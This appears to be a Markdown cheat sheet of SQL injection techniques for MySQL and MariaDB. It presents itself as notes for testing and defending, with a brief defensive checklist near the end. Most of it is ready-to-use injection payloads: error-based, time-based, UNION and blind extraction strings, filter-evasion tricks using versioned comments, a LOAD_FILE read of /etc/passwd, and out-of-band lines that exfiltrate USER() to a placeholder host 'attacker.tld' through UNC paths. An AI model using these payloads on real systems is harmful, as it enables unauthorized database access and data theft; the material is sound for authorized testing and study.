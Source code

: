 # MySQL / MariaDB — SQLi Notes

> Practical notes for testing and defending **MySQL 5.7/8.0** and **MariaDB 10.x**. Focus on fingerprinting, catalogs, error/time primitives, UNION behavior, file/OOB quirks, and safe engineering guidance.

---

## 1) Quick Fingerprinting
- **Engine & version**
  - `SELECT VERSION();` — banner (engine + distro).
  - `SELECT @@version_comment;` — vendor (e.g., MySQL Community, MariaDB) when available.
- **Identity & context**
  - `SELECT USER(), CURRENT_USER();` — login string vs effective definer.
  - `SELECT DATABASE();` — current schema.
- **Configuration hints**
  - `SELECT @@sql_mode;` — strict modes affect casting/error behavior.
  - `SELECT @@secure_file_priv;` — file I/O sandbox (OUTFILE/INFILE).

---

## 2) Comments, Quoting, Concatenation
- **Comments:** `-- ` (needs trailing space or newline), `#`, `/* ... */`, and **versioned comments** `/*!...*/` (MySQL executes inside depending on server version).
- **Strings:** single quotes `'text'`; escape by doubling or backslash (mode-dependent). Use hex `0x...` to avoid quotes.
- **Concatenation:** `CONCAT(a,b)`, `CONCAT_WS(':',a,b)`; `||` is logical OR (unless `PIPES_AS_CONCAT` is enabled).

---

## 3) System Catalogs & Information Schema
- `information_schema.schemata` → databases.
- `information_schema.tables` → tables (schema, name).
- `information_schema.columns` → columns (table, name, type).

**Handy queries**
```sql
-- List databases
SELECT schema_name FROM information_schema.schemata;

-- Tables in current DB
SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE();

-- Columns of a table
SELECT column_name, data_type FROM information_schema.columns
WHERE table_schema=DATABASE() AND table_name='users';
```

---

## 4) Error‑based Primitives
**Note:** MySQL 8.0 removed legacy XML functions; MariaDB still has them.
```sql
-- MariaDB / older MySQL
' AND EXTRACTVALUE(1, CONCAT(0x7e,(SELECT DATABASE()),0x7e)) -- -
' AND UPDATEXML(1, CONCAT(0x7e,(SELECT USER()),0x7e), 1) -- -
```
**Type/cast quirks:**
```sql
-- Can surface truncation errors (depends on sql_mode)
' AND CAST((SELECT DATABASE()) AS UNSIGNED) -- -
```
In modern MySQL, prefer **UNION** or **blind** techniques for reliability.

---

## 5) Time‑based Primitives
```sql
' AND SLEEP(3) -- -
' AND IF((SELECT DATABASE())='appdb', SLEEP(3), 0) -- -
-- CPU alternative (noisy)
' AND BENCHMARK(5000000,MD5('a')) -- -
```

---

## 6) UNION‑based Notes
- Discover **column count** using `ORDER BY n` or NULL padding.
- Align types; use `CAST(... AS CHAR)` or hex literals to normalize.
```sql
' UNION ALL SELECT 1,VERSION(),3 -- -
' UNION ALL SELECT 1,DATABASE(),3 -- -
```
- Find a **printable column** by placing a unique marker in each position.

---

## 7) Filesystem & OOB (Privileged / OS‑dependent)
- **File read/write** (requires `FILE` and `secure_file_priv` allowing path):
```sql
-- Read file
SELECT LOAD_FILE('/etc/passwd');
-- Write file (risk!)
SELECT 'ok' INTO OUTFILE '/tmp/ok.txt';
```
- **Windows UNC (DNS/SMB) tricks** can provoke OOB callbacks:
```sql
' UNION ALL SELECT 1,LOAD_FILE(CONCAT('\\\\',HEX(USER()),'.attacker.tld\\x')),3 -- -
' SELECT USER() INTO OUTFILE '\\\\attacker.tld\\share\\mark.txt' -- -
```
**Caution:** Use only for authorized, minimal proofs.

---

## 8) Pagination & Row Iteration
```sql
-- First row
SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 1 OFFSET 0;
-- Iterate rows/characters for blind extraction
SELECT ASCII(SUBSTRING((SELECT USER()),1,1)) > 77;
```

---

## 9) Aggregation & Helpers
- `GROUP_CONCAT(expr ORDER BY expr SEPARATOR ',')` (size limited by `@@group_concat_max_len`).
- Hex builders: `0x7139785A` (`'q9xZ'`), `CHAR(113,57,120,90)`.

---

## 10) Privileges & Security Posture
- Check user & grants:
```sql
SELECT CURRENT_USER();
SHOW GRANTS FOR CURRENT_USER();
```
- Minimize app rights: no `FILE`, no `SUPER`, no DDL/DCL.

---

## 11) Evasion Tips (Tester awareness)
- Versioned comments for keyword splitting: `UNI/*!00000*/ON SEL/*!00000*/ECT`.
- `-- ` requires a trailing space; prefer `/* */` when in doubt.
- Use hex/CHAR to avoid quotes; consider `/*!CAST(... AS CHAR)*/` to normalize.

---

## 12) Defensive Checklist (Engineering)
- **Prepared statements** only; never concatenate predicates or identifiers.
- Allowlist identifiers for `ORDER BY`, `GROUP BY`, `LIMIT/OFFSET`.
- Lock down `secure_file_priv`; avoid `FILE` privilege for app users.
- Centralize error handling; generic client messages only.
- Separate read/write accounts; apply least privilege.

---

## 13) Handy One‑liners
```sql
-- Fingerprint & identity
SELECT VERSION(), USER(), CURRENT_USER(), DATABASE();

-- Time‑based yes/no
' AND IF(ASCII(SUBSTRING((SELECT USER()),1,1))>77, SLEEP(3), 0) -- -
```
